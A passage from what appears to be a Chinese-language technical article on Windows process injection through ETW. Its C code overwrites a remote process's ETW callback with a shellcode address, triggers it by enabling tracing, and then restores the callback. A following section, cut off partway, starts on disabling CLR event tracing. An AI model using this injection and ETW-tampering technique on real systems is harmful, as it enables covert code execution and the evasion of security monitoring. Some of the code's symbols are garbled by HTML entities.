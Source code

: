 ```
          // 用shellcode地址覆盖现有入口点
          WriteProcessMemory(hp, 
            (PBYTE)node + offsetof(ETW_USER_REG_ENTRY, Callback),
            &amp;cs, sizeof(ULONG_PTR), &amp;wr);

          //通过启用跟踪触发shellcode的执行
          if(EnableTraceEx(
            &amp;re.ProviderId, NULL, ht,
            1, TRACE_LEVEL_VERBOSE,
            (1 &lt;&lt; 16), 0, 0, NULL) == ERROR_SUCCESS)
          `{`
            status = TRUE;
          `}`

          // 还原回调
          WriteProcessMemory(hp, 
            (PBYTE)node + offsetof(ETW_USER_REG_ENTRY, Callback),
            &amp;callback, sizeof(ULONG_PTR), &amp;wr);

          // 禁用tracing
          ControlTrace(ht, etwname, prop, EVENT_TRACE_CONTROL_STOP);
        `}` else `{`
          xstrerror(L"StartTrace");
        `}`
        LocalFree(prop);
        VirtualFreeEx(hp, cs, 0, MEM_DECOMMIT | MEM_RELEASE);
      `}`
    `}` else `{`
      wprintf(L"ERROR: Unable to get registration entry.n");
    `}`
    CloseHandle(hp);
    return status;
`}`
```

### <a class="reference-link" name="6.%E7%A6%81%E7%94%A8%E8%B7%9F%E8%B8%AA"></a>6.禁用跟踪

如果更详细地检查**clr！McGenControlCallbackV2**，我们将发现它会更改回调上下文中的值以启用或禁用事件跟踪。对于CLR，使用以下结构和功能。同样，对于不同版本的CLR，可以对此进行不同的定义。

```
typedef struct _MCGEN_TRACE_CONTEXT `{`
    TRACEHANDLE      RegistrationHandle;
    TRACEHANDLE      Logger;
    ULONGLONG        MatchAnyKeyword;
    ULONGLONG        MatchAllKeyword;
    ULONG            Flags;
    ULONG            IsEnabled;
    UCHAR            Level;
    UCHAR            Reserve;
    USHORT           EnableBitsCount;
    PULONG           EnableBitMask;
    const ULONGLONG* EnableKeyWords;
    const UCHAR*     EnableLevel;
`}` MCGEN_TRACE_CONTEXT, *PMCGEN_TRACE_CONTEXT;

void McGenControlCallbackV2(
  LPCGUID              SourceId, 
  ULONG                IsEnabled, 
  UCHAR                Level, 
  ULONGLONG            MatchAnyKeyword, 
  ULONGLONG            MatchAllKeyword, 
  PVOID                FilterData, 
```
